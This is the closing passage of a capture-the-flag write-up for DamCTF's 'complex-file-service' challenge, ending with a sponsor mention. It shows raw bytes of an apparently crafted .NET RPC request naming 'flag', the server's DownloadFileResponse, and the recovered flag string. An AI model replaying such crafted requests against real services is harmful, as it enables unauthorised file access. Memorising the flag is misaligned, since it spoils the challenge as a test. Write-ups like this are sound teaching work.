b'\x01\x01\x06\xf1\x02\x00V\x02\x0b\x01s\x04\x0b\x01a\x06V\x08D\n\x1e\x00\x82\xab\x01D\x12\xad\x9eBQ9\xd7M\x96G\x9d\xe3\xd8\xd6\xb5\x05\xd3\xccD\x0c\x1e\x00\x82\xab\x14\x01V\x0eB\x03\n\x05B\x07\x0b\x01b\t\x0b\x01i\x0bE\r\x99\x04flagE\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01\x01\x01'
b'\x01\x01\x06\xd9\x01]4http://tempuri.org/IFileService/DownloadFileResponse\x14DownloadFileResponse\x12DownloadFileResultV\x02\x0b\x01s\x04\x0b\x01a\x06V\x08D\n\x1e\x00\x82\xab\x11D\x12\xad\xa0\xcb\xacB\xea\x8bI@\xb0\x87@YtT\x7f\xb2D\x0c\x1e\x00\x82\xab\x14\x01V\x0eB\x13\n\x05B\x15\x9e<dam{rpc_RPC_1337_why_d1d_y0u_m@k3_m3_1nst@ll_d0tn3t_f0r_th1s\x9f\x02}\n\x01\x01\x01'
[*] Closed connection to complex-file-service.chals.damctf.xyz port 27777
```

We can spot the flag in the last response: `dam{rpc_RPC_1337_why_d1d_y0u_m@k3_m3_1nst@ll_d0tn3t_f0r_th1s}`. Well, with our little trick, at least we just needed the .NET runtime, we did not need to learn how to write our own client :D

----- 
For now, we're done. Thanks for reading! If you ever need to deploy cloud-based infrastructure in Brazil, please consider our great partner [Magalu Cloud](https://magalu.cloud).


